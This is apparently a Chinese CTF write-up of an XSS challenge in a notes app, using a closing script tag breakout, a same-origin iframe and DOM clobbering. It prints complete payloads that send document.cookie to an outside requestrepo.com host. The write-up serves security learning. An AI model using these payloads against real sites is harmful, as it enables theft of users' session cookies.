这里很明显，只要让notes的title或者content出现`</script>`就能脱离出去

很好，就下来就开始懵住了：

思路：在指向/profile的页面中插入一个 iframe ，因为没有 CSP 并且是同源的，我们可以执行我们想要的任何 javascript。 如果我们给 iframe 命名， `<iframe name='a'></iframe>` ，那么这里的iframe就是我们窗口的 `a` 。

构造：`";a.eval()//`，这样是用了12个，还剩四个，这里我们不能用name，因为我们没办法将管理员重定向到我们的网站，但是我们可以用dom clobbering

> DOM Clobbering是Web浏览器的遗留功能，只会在许多应用程序中引起麻烦。通常情况下，当您使用HTML创建一个元素（例如`<input id=username>`），然后又希望从JavaScript引用该元素时，开发者通常会使用document.getElementById('username')或document.querySelector('#username')之类的函数进行调用。但这并不是唯一的方法！
> 
> 老式方法下还能通过全局window对象的属性访问它。因此会使用window.username函数，在这种情况下此函数与document.getElementById('username')效果完全相同！如果应用程序基于某些全局变量的存在来做出决定，则此行为（称为DOM Cloberring）可能导致有趣的漏洞

接下来的思路就是通过dom clobbering 去塞 payload

我们可以通过它们的id直接获取元素，所以我们需要插入一个`<a id="m" href=abc:payload>`，在m变量上toString。

方法一：

```javascript
name: ";a.eval(m+"");"
name: ";a.eval(m+"")//
```

first note

```html
title: any
content: </script>
```

second note

```html
title: any
content: <iframe src=/profile id=b name=a></iframe>
```

final note

```html
title: any
content: <a id="m" href=abc:fetch("//"+document.cookie.substr(13).replaceAll("_",".").replace("}","")+".u5uc8xic.requestrepo.com");></a>
```

![image-20220404151957593](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-aee96744f2344b62c26dea3353d0fe4e3e4b41b0.png)

```javascript
name: ";a.eval(m+"");"
name: ";a.eval(m+"")//

title: </script><iframe src=/profile id=b name=a></iframe>

content: <a id="m" href=abc:fetch("//"+document.cookie.substr(13).replaceAll("_",".").replace("}","")+".ukt38llu.requestrepo.com");></a>
```
